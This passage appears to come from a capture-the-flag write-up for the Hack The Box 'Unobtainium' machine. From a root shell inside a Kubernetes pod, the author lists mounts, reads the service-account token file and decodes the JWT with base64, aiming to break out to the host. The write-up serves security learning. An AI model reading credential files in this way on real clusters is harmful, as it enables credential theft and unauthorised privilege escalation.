 Trying to set up persistence via ssh public key doesn't work as we're in a container or even a kubernetes pod to be exact,
identified when we run 'df'.
We need to find a way to break out of here to the actual box in order to get root.

  root@webapp-deployment-5d764566f4-h5zhw:/#  df
    Filesystem     1K-blocks    Used Available Use% Mounted on
    overlay         12318856 8388464   3788192  69% /
    tmpfs              65536       0     65536   0% /dev
    tmpfs            2015284       0   2015284   0% /sys/fs/cgroup
    /dev/sda1       12318856 8388464   3788192  69% /root
    shm                65536       0     65536   0% /dev/shm
    tmpfs            2015284      12   2015272   1% /run/secrets/kubernetes.io/serviceaccount
    tmpfs            2015284       0   2015284   0% /proc/acpi
    tmpfs            2015284       0   2015284   0% /proc/scsi
    tmpfs            2015284       0   2015284   0% /sys/firmware


root@webapp-deployment-5d764566f4-h5zhw:/# cd /run/secrets/kubernetes.io/serviceaccount/..data
<:/run/secrets/kubernetes.io/serviceaccount/..data# cat token
eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZWZhdWx0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6ImRlZmF1bHQtdG9rZW4tZ3YycHEiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC5uYW1lIjoiZGVmYXVsdCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6IjQwODNiNTAyLWU0ZGMtNGZiMC1iNzU1LTY0ZmU3ZGVkMzcxNSIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.mmkqCtOB3qHPkdybHAJuaLGpQk01UGqecZZO9TfMMeO02PO2CfXoeuRyR1I0BDmyJlxuzuDZdl0k6i0AsQF4DU3Ow_Rm-YZ5cIWDVV3tfuWIA0PvJsmlJqDC4X4OmbOIULLw4i5ckWO_0I35OhlRRLumnaRRrJKFaRnWA1H-zRyAPF3fBGtUuFJecHLNTOaDMyffvBCcblT5z4jjC7V4jKKG05NUNY4UNvvtCiFfevoeTfUzJ4L2dFtkOkHV8k_nC__eJu-CqOvLQlNAWgnJvhNLry_5IVGPxos80R0IC8gOto5bFx0WsSj5av56ff_1UsnDD68IG9uHdinOZC4xvA

An obvious JWT Token.

FIRST PART:
[root:/git/htb/unobtainium]# echo eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ | base64 -d
{"alg":"RS256","kid":"JNvob_VDLBvBVEiZBxpzN0oicDjYmhMT-wB5f-obVS8"}

SECOND PART:
[root:/git/htb/unobtainium]# echo eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZWZhdWx0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6ImRlZmF1bHQtdG9rZW4tZ3YycHEiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC5uYW1lIjoiZGVmYXVsdCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6IjQwODNiNTAyLWU0ZGMtNGZiMC1iNzU1LTY0ZmU3ZGVkMzcxNSIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ | base64 -d
{"iss":"kubernetes/serviceaccount","kubernetes.io/serviceaccount/namespace":"default","kubernetes.io/serviceaccount/secret.name":"default-token-gv2pq","kubernetes.io/serviceaccount/service-account.name":"default","kubernetes.io/serviceaccount/service-account.uid":"4083b502-e4dc-4fb0-b755-64fe7ded3715","sub":"system:serviceaccount:default:default"}

THIRD PART:
mmkqCtOB3qHPkdybHAJuaLGpQk01UGqecZZO9TfMMeO02PO2CfXoeuRyR1I0BDmyJlxuzuDZdl0k6i0AsQF4DU3Ow_Rm-YZ5cIWDVV3tfuWIA0PvJsmlJqDC4X4OmbOIULLw4i5ckWO_0I35OhlRRLumnaRRrJKFaRnWA1H-zRyAPF3fBGtUuFJecHLNTOaDMyffvBCcblT5z4jjC7V4jKKG05NUNY4UNvvtCiFfevoeTfUzJ4L2dFtkOkHV8k_nC__eJu-CqOvLQlNAWgnJvhNLry_5IVGPxos80R0IC8gOto5bFx0WsSj5av56ff_1UsnDD68IG9uHdinOZC4xvA
